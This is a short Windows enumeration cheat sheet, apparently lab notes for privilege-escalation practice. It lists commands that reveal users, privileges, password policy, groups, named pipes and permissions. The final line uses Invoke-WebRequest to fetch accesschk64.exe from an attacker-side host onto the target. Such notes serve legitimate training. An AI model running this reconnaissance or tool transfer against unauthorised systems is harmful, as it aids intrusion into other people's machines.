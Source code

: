 **Permission on a file :**
```sh
Get-ACl file.txt
```

**Display Running Processes:**

```python
netstat -ano
```

**Logged-In Users:**
```python
query user
query session
```

**Current User and Privileges:**
```python
echo %USERNAME%
whoami /priv
```

**See Encrypted file on the system :**
```sh
CIPHER /u /n
```

**Get All Groups:**
```python
net localgroup
```

**Password Policy & Other Account Information:**
```python
net accounts
net user
```

**Listing Named Pipes:**

- Download pipelist.exe from [https://learn.microsoft.com/en-us/sysinternals/downloads/pipelist](https://learn.microsoft.com/en-us/sysinternals/downloads/pipelist)
```python
pipelist.exe /accepteula
#or 
gci \\.\pipe\
#or
Get-ChildItem "\\.\pipe\" | Where-Object { -not $_.PsIsContainer } | ForEach-Object { Write-Output "Named Pipe: $($_.FullName)" }
```

**Enumerating Permissions:**

- Download accesschk from [https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk)
- Download accesschk:
```python
Invoke-WebRequest -Uri "http://10.10.16.100:8080/accesschk64.exe" -OutFile "C:\Users\htb-student\Desktop\accesschk64.exe"
```
